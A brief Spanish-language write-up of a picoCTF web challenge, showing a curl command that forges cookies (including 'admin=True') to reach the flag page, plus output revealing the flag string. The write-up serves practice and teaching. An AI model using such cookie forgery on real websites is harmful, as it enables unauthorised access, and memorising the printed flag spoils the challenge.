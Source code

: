 ## Objetivo
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/44573/` ([link](https://jupiter.challenges.picoctf.org/problem/44573/)) or http://jupiter.challenges.picoctf.org:44573

## Solución
Desde la consola
```bash
curl [https://jupiter.challenges.picoctf.org/problem/44573/flag](https://jupiter.challenges.picoctf.org/problem/44573/flag) -H 'Cookie: password=hola; username=Juan; admin=True' | grep picoCTF
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1312  100  1312    0     0   4689      0 --:--:-- --:--:-- --:--:--  4702
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}</code></p> 
```
## Notas adicionales
## Referencias
[Cookie](https://es.wikipedia.org/wiki/Cookie_(inform%C3%A1tica))
